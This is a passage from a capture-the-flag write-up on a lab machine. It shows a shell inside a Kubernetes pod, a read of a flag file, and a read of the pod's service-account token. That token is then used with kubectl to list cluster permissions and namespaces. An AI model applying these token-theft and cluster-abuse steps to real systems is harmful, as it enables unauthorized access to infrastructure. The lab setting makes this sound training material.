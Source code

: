 ```bash
bash: cannot set terminal process group (15): Not a tty
bash: no job control in this shell
bash-4.4$ id
id
uid=1000(git) gid=1000(git) groups=1000(git),1000(git)
bash-4.4$ pwd
pwd
/data/git/repositories/leeroy/vuln.git
bash-4.4$ cd /root
bash-4.4$ ls -la
total 12
drwxrwxrwx    3 root     root          4096 May 31 22:01 .
drwxr-xr-x    1 root     root          4096 Oct 26 17:25 ..
drwxr-xr-x    2 root     root          4096 May 31 22:01 ..2021_05_31_22_01_32.228018415
lrwxrwxrwx    1 root     root            31 May 31 22:01 ..data -> ..2021_05_31_22_01_32.228018415
lrwxrwxrwx    1 root     root            16 May 31 22:01 flag2.txt -> ..data/flag2.txt
bash-4.4$ cat flag2.txt 
flag{[REDACTED]}
```
After submiting the second flag, I used the hint of the flag 3. "`kubectl`".

So maybe we have some secrets/tokens to use with `kubectl` and we can get them from this pod!

And Yes! We have a token stored! Let's save it in our local machine!
```bash
bash-4.4$ ls -la /var/run/secrets/kubernetes.io
total 8
drwxr-xr-x    3 root     root          4096 Oct 26 17:25 .
drwxr-xr-x    3 root     root          4096 Oct 26 17:25 ..
drwxrwxrwt    3 root     root           140 Oct 26 17:25 serviceaccount
bash-4.4$ cd /var/run/secrets/kubernetes.io/serviceaccount
bash-4.4$ ls -la
total 4
drwxrwxrwt    3 root     root           140 Oct 26 17:25 .
drwxr-xr-x    3 root     root          4096 Oct 26 17:25 ..
drwxr-xr-x    2 root     root           100 Oct 26 17:25 ..2021_10_26_17_25_23.066083395
lrwxrwxrwx    1 root     root            31 Oct 26 17:25 ..data -> ..2021_10_26_17_25_23.066083395
lrwxrwxrwx    1 root     root            13 Oct 26 17:25 ca.crt -> ..data/ca.crt
lrwxrwxrwx    1 root     root            16 Oct 26 17:25 namespace -> ..data/namespace
lrwxrwxrwx    1 root     root            12 Oct 26 17:25 token -> ..data/token
bash-4.4$ cat token
eyJhbGciOiJSUzI1NiIsIm[REDACTED]BAx_djkHFv3vza54WS9w
```

## Flag 3

And here comes the sweet part of this machine! _"Abuse a misconfigured Kubernetes cluster"_ 

So let's Ab-use this cluster!

```bash
╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 auth can-i --list
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
            [*]                 []               [*]

╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 get namespaces
NAME              STATUS   AGE
default           Active   147d
kube-system       Active   147d
kube-public       Active   147d
kube-node-lease   Active   147d
```